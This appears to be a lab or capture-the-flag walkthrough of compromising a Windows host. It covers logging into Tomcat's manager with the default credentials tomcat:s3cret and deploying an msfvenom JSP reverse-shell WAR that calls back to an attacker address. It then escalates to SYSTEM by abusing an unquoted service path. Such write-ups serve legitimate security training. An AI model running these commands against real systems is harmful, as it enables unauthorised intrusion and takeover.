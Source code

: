 First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.13`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/29e73950-cab4-49ef-94ea-700b04f059d8/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/29e73950-cab4-49ef-94ea-700b04f059d8/Untitled.png)

Quite a few ports to look at.  First thing that I see that catches my eye is Tomcat running on port 8080.  Lets check this out and see what we find.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ae507099-dfb9-4392-8940-b2f3bcc9a65c/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ae507099-dfb9-4392-8940-b2f3bcc9a65c/Untitled.png)

Looks like we have a default page with some information disclosure on the version of Tomcat running.  I looked for any vulnerabilities for Tomcat 7.0.88 and found a couple of possibilities but couldn't get them to work so I put them on the back burner.  I decided to fuzz for directories which didn't returned much but it did return a few results as we can see here.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e8dc1163-1a01-4081-bfdf-7a38ed05c678/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e8dc1163-1a01-4081-bfdf-7a38ed05c678/Untitled.png)

The manager directory looks interesting, lets check that out.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1bd47201-3a74-4a57-9d1a-13bb53b0ce0b/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1bd47201-3a74-4a57-9d1a-13bb53b0ce0b/Untitled.png)

We have a place to log in,  I tried a few common creds like admin:admin with no luck.  I then searched for tomcat default creds and for this list on GitHub

[https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

If we go through this list, we will find that the default creds of **tomcat:s3cret** work and we are now logged into the manager.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/33c29dff-37a4-4c54-b6a9-617ad7112718/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/33c29dff-37a4-4c54-b6a9-617ad7112718/Untitled.png)

If we scroll down, we see a place to upload a **.war** file.  This is perfect as we should be able to upload a malicious war file that can get us a shell on the machine.  Lets generate one with **msfvenom**

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.0.11 LPORT=1337 -f war > shell.war`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/81471837-8371-4809-be3e-1fee87d78e3c/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/81471837-8371-4809-be3e-1fee87d78e3c/Untitled.png)

Once we upload our file to the server we will see it under Applications

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5492593e-1210-4688-ab9f-a79244bc54cd/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5492593e-1210-4688-ab9f-a79244bc54cd/Untitled.png)

Now we just need to start a netcat listener and click on the application to execute on the server.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/597f7525-1820-444c-b309-dc68099fd5ea/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/597f7525-1820-444c-b309-dc68099fd5ea/Untitled.png)

We now have a shell!  Now lets see if we can escalate our privileges.

I started with transferring over **WinPEAS** to the machine and found an unquoted service path that we may be able to abuse.  We can also see that we have access to create files in a directory within the path of this service executable.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/85e88a1e-c1ad-43be-9007-124bff2ccdb6/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/85e88a1e-c1ad-43be-9007-124bff2ccdb6/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7c687b15-a5e6-4415-96a9-73646bb745be/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7c687b15-a5e6-4415-96a9-73646bb745be/Untitled.png)

We can query more information about this service with **sc qc Deploy**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eb005d38-1b47-4dbc-a248-83ca6363cf79/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eb005d38-1b47-4dbc-a248-83ca6363cf79/Untitled.png)

As we can see, this services seems to be running with system permissions.  Since we can see from the WinPEAS output that we can write to the **C:\Program Files\Deploy Ready** directory, we should be able to create a malicious file called **Service.exe** within this directory.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b88eae5-a2ba-4e59-829f-e877f5ad669e/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b88eae5-a2ba-4e59-829f-e877f5ad669e/Untitled.png)

Now we can execute this file by starting the service with **net start Deploy** and obtain a shell as system

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/776c12e8-4550-4541-a247-74ea69427278/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/776c12e8-4550-4541-a247-74ea69427278/Untitled.png)
